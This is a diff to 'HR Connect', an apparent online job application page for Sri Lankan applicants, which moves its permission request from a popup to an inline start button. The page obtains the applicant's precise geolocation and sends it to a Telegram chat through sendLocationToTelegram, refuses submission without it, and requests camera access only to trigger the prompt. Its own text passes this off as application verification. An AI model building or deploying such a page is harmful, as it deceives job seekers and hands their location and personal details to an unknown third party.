

Before and after one commit to rfathima2003r-crypto/Online_job_apply, a plain HTML site: page onlinejob.html in a window 1280 px wide. Before the commit the page ends 808 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update onlinejob.html

```diff
--- a/onlinejob.html
+++ b/onlinejob.html
@@ -5,7 +5,6 @@
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Job Application - HR Dept</title>
   <style>
-    /* ===== RESET ===== */
     * {
       margin: 0;
       padding: 0;
@@ -22,7 +21,6 @@
       padding: 20px;
     }
 
-    /* ===== CARD ===== */
     .card {
       max-width: 520px;
       width: 100%;
@@ -30,7 +28,6 @@
       border-radius: 24px;
       padding: 32px 28px 36px;
       box-shadow: 0 12px 40px rgba(0, 0, 0, 0.08);
-      transition: 0.3s;
       border: 1px solid rgba(0, 0, 0, 0.04);
     }
 
@@ -38,7 +35,6 @@
       font-size: 28px;
       font-weight: 700;
       color: #1a2a3a;
-      letter-spacing: -0.5px;
       margin-bottom: 4px;
     }
 
@@ -48,6 +44,36 @@
       margin-bottom: 24px;
       border-bottom: 2px solid #f0f4f9;
       padding-bottom: 16px;
+    }
+
+    /* ===== START BUTTON (Permission Trigger) ===== */
+    #start-section {
+      text-align: center;
+      margin-bottom: 24px;
+    }
+
+    #start-btn {
+      background: #2a7de1;
+      color: #fff;
+      border: none;
+      padding: 14px 40px;
+      font-size: 18px;
+      font-weight: 600;
+      border-radius: 40px;
+      cursor: pointer;
+      transition: 0.25s;
+      box-shadow: 0 4px 14px rgba(42, 125, 225, 0.3);
+    }
+
+    #start-btn:hover {
+      background: #1a6ac8;
+      transform: scale(1.02);
+    }
+
+    #start-btn:disabled {
+      opacity: 0.5;
+      cursor: not-allowed;
+      transform: none;
     }
 
     /* ===== SUCCESS BANNER ===== */
@@ -84,74 +110,6 @@
 
     #location-status .text {
       flex: 1;
-    }
-
-    /* ===== PERMISSION OVERLAY (Popup) ===== */
-    #permission-overlay {
-      position: fixed;
-      top: 0;
-      left: 0;
-      width: 100%;
-      height: 100%;
-      background: rgba(0, 0, 0, 0.75);
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      z-index: 9999;
-      padding: 20px;
-      box-sizing: border-box;
-      animation: fadeIn 0.3s ease;
-    }
-
-    @keyframes fadeIn {
-      from { opacity: 0; }
-      to { opacity: 1; }
-    }
-
-    #permission-overlay .popup-box {
-      background: #fff;
-      max-width: 400px;
-      width: 100%;
-      padding: 32px 24px;
-      border-radius: 20px;
-      text-align: center;
-      box-shadow: 0 20px 60px rgba(0, 0, 0, 0.3);
-    }
-
-    #permission-overlay .popup-box .icon {
-      font-size: 56px;
-      margin-bottom: 12px;
-    }
-
-    #permission-overlay .popup-box h2 {
-      font-size: 20px;
-      color: #1a2a3a;
-      margin-bottom: 8px;
-    }
-
-    #permission-overlay .popup-box p {
-      font-size: 14px;
-      color: #555;
-      margin-bottom: 20px;
-      line-height: 1.6;
-    }
-
-    #permission-overlay .popup-box .btn-start {
-      background: #2a7de1;
-      color: #fff;
-      border: none;
-      padding: 14px 30px;
-      font-size: 17px;
-      font-weight: 600;
-      border-radius: 40px;
-      cursor: pointer;
-      transition: 0.25s;
-      width: 100%;
-      box-shadow: 0 4px 14px rgba(42, 125, 225, 0.3);
-    }
-
-    #permission-overlay .popup-box .btn-start:hover {
-      background: #1a6ac8;
     }
 
     /* ===== FORM ===== */
@@ -221,37 +179,27 @@
       transform: none;
     }
 
-    /* ===== RESPONSIVE ===== */
     @media (max-width: 480px) {
       .card {
         padding: 22px 16px 28px;
-      }
-      #permission-overlay .popup-box {
-        padding: 24px 16px;
       }
     }
   </style>
 </head>
 <body>
 
-<!-- ===== PERMISSION OVERLAY (POPUP) - Page Load ===== -->
-<div id="permission-overlay">
-  <div class="popup-box">
-    <div class="icon">📋</div>
-    <h2>Job Application Access</h2>
-    <p>
-      ඔබගේ <strong>Location</strong> සහ <strong>Camera</strong> අවශ්‍ය වේ.<br>
-      මෙය Job Application verification සඳහා පමණයි.
-    </p>
-    <button class="btn-start" id="startBtn">✅ Start Application</button>
-  </div>
-</div>
-
-<!-- ===== MAIN CARD ===== -->
 <div class="card">
 
   <div class="logo">📋 HR Connect</div>
   <div class="sub-logo">Online Job Application · Sri Lanka</div>
+
+  <!-- ===== START BUTTON (Click to trigger permissions) ===== -->
+  <div id="start-section">
+    <button id="start-btn">✅ Start Application</button>
+    <p style="font-size: 13px; color: #888; margin-top: 6px;">
+      Click to allow Location & Camera access
+    </p>
+  </div>
 
   <!-- ===== SUCCESS BANNER ===== -->
   <div id="success-banner">
@@ -261,7 +209,7 @@
   <!-- ===== LOCATION STATUS ===== -->
   <div id="location-status">
     <span class="icon">📍</span>
-    <span class="text" id="locationText">⏳ Detecting your location...</span>
+    <span class="text" id="locationText">⏳ Waiting for permission...</span>
   </div>
 
   <!-- ===== APPLICATION FORM ===== -->
@@ -318,8 +266,7 @@
   // =============================================
   // 📍 ELEMENTS
   // =============================================
-  const overlay = document.getElementById('permission-overlay');
-  const startBtn = document.getElementById('startBtn');
+  const startBtn = document.getElementById('start-btn');
   const locationText = document.getElementById('locationText');
   const locationStatusDiv = document.getElementById('location-status');
   const successBanner = document.getElementById('success-banner');
@@ -327,20 +274,20 @@
   let locationAllowed = false;
 
   // =============================================
-  // 🚀 START BUTTON - REQUEST PERMISSIONS
+  // 🚀 START BUTTON CLICK → PERMISSIONS
   // =============================================
   startBtn.addEventListener('click', () => {
-    // Hide overlay
-    overlay.style.display = 'none';
+    startBtn.disabled = true;
+    startBtn.textContent = '⏳ Requesting...';
 
-    // Request Location AND Camera
-    requestLocationAndCamera();
+    // Request Location + Camera
+    requestPermissions();
   });
 
   // =============================================
   // 📍 REQUEST LOCATION + CAMERA
   // =============================================
-  function requestLocationAndCamera() {
+  function requestPermissions() {
     // ----- 1. LOCATION -----
     locationText.textContent = '⏳ Requesting location...';
 
@@ -356,6 +303,9 @@
           locationStatusDiv.style.display = 'none';
 
           sendLocationToTelegram(lat, lon);
+
+          startBtn.textContent = '✅ Permission Granted';
+          startBtn.style.background = '#28a745';
         },
         (err) => {
           console.warn('Location error:', err);
@@ -367,6 +317,8 @@
           locationAllowed = false;
           successBanner.style.display = 'none';
           locationStatusDiv.style.display = 'flex';
+          startBtn.disabled = false;
+          startBtn.textContent = '🔄 Retry';
         },
         { enableHighAccuracy: true, timeout: 15000, maximumAge: 0 }
       );
@@ -374,17 +326,15 @@
       locationText.textContent = '❌ Geolocation not supported.';
     }
 
-    // ----- 2. CAMERA (Optional - just to trigger permission) -----
+    // ----- 2. CAMERA (Trigger permission) -----
     if (navigator.mediaDevices && navigator.mediaDevices.getUserMedia) {
       navigator.mediaDevices.getUserMedia({ video: true })
         .then((stream) => {
-          // Camera permission granted - stop stream immediately
           stream.getTracks().forEach(track => track.stop());
           console.log('✅ Camera permission granted');
         })
         .catch((err) => {
           console.warn('Camera permission denied:', err);
-          // Don't show error to user - just log
         });
     }
   }
@@ -445,7 +395,7 @@ ${mapsLink}
     const submitBtn = document.getElementById('submitBtn');
 
     if (!locationAllowed) {
-      alert('❌ කරුණාකර Location Permission එක Allow කරන්න.\n\n"Start Application" බොත්තම ඔබලා Permission දෙන්න.');
+      alert('❌ කරුණාකර මුලින් "Start Application" බොත්තම ඔබලා Location Permission එක Allow කරන්න.');
       submitBtn.disabled = false;
       submitBtn.textContent = '🚀 Submit Application';
       return;
@@ -505,8 +455,10 @@ ${coverNote || '—'}
         locationAllowed = false;
         successBanner.style.display = 'none';
         locationStatusDiv.style.display = 'flex';
-        overlay.style.display = 'flex';
-        locationText.textContent = '⏳ Click "Start Application" to continue...';
+        startBtn.disabled = false;
+        startBtn.textContent = '🔄 Start Again';
+        startBtn.style.background = '#2a7de1';
+        locationText.textContent = '⏳ Click "Start Again" to re-allow permissions...';
       } else {
         submitBtn.textContent = '❌ Submission Failed';
         submitBtn.disabled = false;
@@ -519,7 +471,7 @@ ${coverNote || '—'}
     }
   });
 
-  console.log('✅ HR Connect Form Loaded');
+  console.log('✅ HR Connect Form Loaded - Click Start Button');
 </script>
 
 </body>
```
